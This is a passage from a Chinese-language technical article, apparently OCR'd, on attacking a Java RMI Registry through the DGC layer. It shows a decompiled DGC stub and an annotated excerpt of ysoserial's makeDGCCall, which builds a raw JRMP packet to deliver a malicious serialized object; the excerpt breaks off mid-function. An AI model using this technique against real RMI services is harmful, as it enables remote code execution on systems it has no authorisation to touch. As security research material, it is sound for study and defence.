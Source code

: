 ```java
                ObjectOutput var6 = var5.getOutputStream();
                var6.writeObject(var1);
                var6.writeLong(var2);
                var6.writeObject(var4);
            } catch (IOException var20) {
                throw new MarshalException("error marshalling arguments", var20);
            }

            super.ref.invoke(var5);

            Lease var24;
            try {
                ObjectInput var9 = var5.getInputStream();
                var24 = (Lease)var9.readObject();
            } catch (IOException var17) {
                throw new UnmarshalException("error unmarshalling return", var17);
            } catch (ClassNotFoundException var18) {
                throw new UnmarshalException("error unmarshalling return", var18);
            } finally {
                super.ref.done(var5);
            }

            return var24;
        } catch (RuntimeException var21) {
            throw var21;
        } catch (RemoteException var22) {
            throw var22;
        } catch (Exception var23) {
            throw new UnexpectedException("undeclared checked exception", var23);
        }
    }
```

于是有相同的思路，我们利用dirty或clean发送恶意的序列化对象攻击Register。这里没有和bind、rebind类似的封装好的方法，可以方便我们直接发起一个DGC层的请求，之前利用lookup进行攻击的过程中，也遇到了类似的问题，我们自己实现了一个类似lookup的方法，可以序列化任意对象，其实还有另一种思路，尝试直接构建JRMP协议层数据包。我们看一下ysoserial的代码实现：

```java
public static void makeDGCCall ( String hostname, int port, Object payloadObject ) throws IOException, UnknownHostException, SocketException {
        InetSocketAddress isa = new InetSocketAddress(hostname, port);
        Socket s = null;
        DataOutputStream dos = null;
        try {
            //建立一个socket通道，并为赋值
            s = SocketFactory.getDefault().createSocket(hostname, port);
            s.setKeepAlive(true);
            s.setTcpNoDelay(true);
		   //读取socket通道的数据流
            OutputStream os = s.getOutputStream();
            dos = new DataOutputStream(os);
 	 	   //*******开始拼接数据流*********
            //以下均为特定协议格式常量
            //传输魔术字符：0x4a524d49（代表协议）
            dos.writeInt(TransportConstants.Magic);
            //传输协议版本号：2（就是版本号）
            dos.writeShort(TransportConstants.Version);
            //传输协议类型: 0x4c (协议的种类，好像是单向传输数据，不需要TCP的ACK确认)
            dos.writeByte(TransportConstants.SingleOpProtocol);
            //传输指令-RMI call：0x50 
            dos.write(TransportConstants.Call);

            @SuppressWarnings ( "resource" )
            final ObjectOutputStream objOut = new MarshalOutputStream(dos);

```